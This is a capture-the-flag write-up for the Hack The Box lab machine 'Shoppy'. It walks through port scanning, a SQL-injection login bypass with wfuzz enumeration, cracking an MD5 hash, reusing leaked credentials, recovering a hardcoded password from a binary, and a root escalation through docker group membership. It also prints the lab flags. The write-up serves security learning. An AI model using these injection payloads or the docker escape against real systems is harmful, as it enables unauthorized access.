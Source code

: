IP: 10.10.11.180
# Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/shoppy 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-09 23:34 EST
Nmap scan report for 10.10.11.180
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
	
Hostname: shoppy.htb
# Webapp
## Site 1
Login page at shoppy.htb/login

Bypass authentication with sqli
```sql
'||'1==1
```
which can enumerate users.
```bash
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ'||'1==1&password=password" --hh 51 http://shoppy.htb/login
```
Found 2 valid users, Josh and admin.

You can get the user's hashes. from the search button on the website.
josh:6ebcea65320589ca4f2f1ce039975995
Looks like a md5sum which cracks to `remembermethisway`.

Try to ssh onto the box, but it doesn't work.
## Site 2
Check for subdomains.
```bash
wfuzz -w /usr/share/seclists/Discovery/DNS/bitquark-subdomain-top100000.txt --hh 169 -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb"
```
Result of mattermost.

In one of the channels there is talk about docker and creds for jaeger.
```
jaeger:Sh0ppyBest@pp!
```
# Foothold
ssh onto the box: 

User flag: 
```
00205ca0b36ca0c118f497536ca0d354
```
Check sudo -l 

can run /home/deploy/password-manager as deploy

## Reversing the binary (very badly)
cat the binary, and manually check for strings.
```
���H�]���UH��H���}��u��}�u2�}���u)H�=�.�����H�u,H�5�.H��+H���/������UH���������]��AWL�=W)AVI��AUI��ATA��UH�-P)SL)�H�����H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !
```
If you run the application 
```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: apples?
Access denied! This incident will be reported !
```
The 'Sample' string doesn't show.

Trying that as the password works!
```txt
Deploy Creds :
username: deploy
password: Deploying@pp!
```
## An aside
A cleaner way would be to run `strings -el ./password-manager`. You have to use the -el flag cause of how the password is created in the source code. It will append a null byte to each letter causing strings to miss it.
```
std::string master_password = "";
    master_password += "S";
    master_password += "a";
    master_password += "m";
    master_password += "p";
    master_password += "l";
    master_password += "e";
```
Or the binary in hex:
```
00002050: 2070 6173 7377 6f72 643a 2000 0053 0061   password: ..S.a
00002060: 006d 0070 006c 0065 0000 0000 0000 0000  .m.p.l.e........
```

# Priv esc
Switch user
```bash
su deploy
```

Running `id` shows that deploy is part of the docker group.

GTFObins has a docker privesc
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```
This will mount the host file system within the docker container and run it as root.

root flag: 
```
981640e1702857397b42e654b62d6423
```

